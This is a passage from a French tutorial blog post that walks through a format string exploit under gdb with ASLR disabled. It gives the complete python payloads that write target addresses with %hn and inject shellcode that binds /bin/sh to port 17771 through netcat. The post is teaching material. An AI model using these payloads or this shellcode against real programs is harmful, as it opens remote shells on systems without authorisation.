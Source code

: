 ```
```bash
printf "%x\n" 49142
0xbff6
```

Calcul de la seconde partie de l'adresse :
```
(gdb) print 0xf26c - 0xbff6 - 9
$18 = 12909
```

Ensuite on teste:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "A"*100')
```
  
![fmt13]({{ site.url }}/public/images/fmt/fmt13.png)
un rapide calcul nous montre qu'il nous reste **63 bytes** pour notre shellcode. 
  
Allons faire notre marché sur [shell-storm](http://shell-storm.org/shellcode/) (cocorico!).  
Celui la est fun: [http://shell-storm.org/shellcode/files/shellcode-872.php](http://shell-storm.org/shellcode/files/shellcode-872.php).  
Il s'agit d'un shellcode qui appelle netcat (/bin/nc) et bind le port 17771 pour le rediriger sur /bin/sh.  
  
Nous adaptons donc notre payload et le testons sous gdb:  
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
  
![fmt14]({{ site.url }}/public/images/fmt/fmt14.png)
Here we go, essayons de nous connecter:  

![fmt15]({{ site.url }}/public/images/fmt/fmt15.png)
Du coté de notre shellcode:  

![fmt16]({{ site.url }}/public/images/fmt/fmt16.png)
Nous pouvons donc en conclure qu'à partir d'un simple appel *printf*, il a été possible d'exécuter un bind shell. Bien évidemment ceci est un cas d'école et a été possible grâce à la désactivation de l'ASLR, rendant ainsi nos adresses prédictibles.

Pour conclure, si vous rencontrez un souci entre l'exécution dans l'environnement gdb et votre shell, voici une réponse: [https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it). Assurez-vous que les environnements soient strictement identiques.
  
N'hésitez pas à me contacter ou à laisser un com.  
See Ya!  
  

Références:
 - [https://www.owasp.org/index.php/Format_string_attack](https://www.owasp.org/index.php/Format_string_attack)
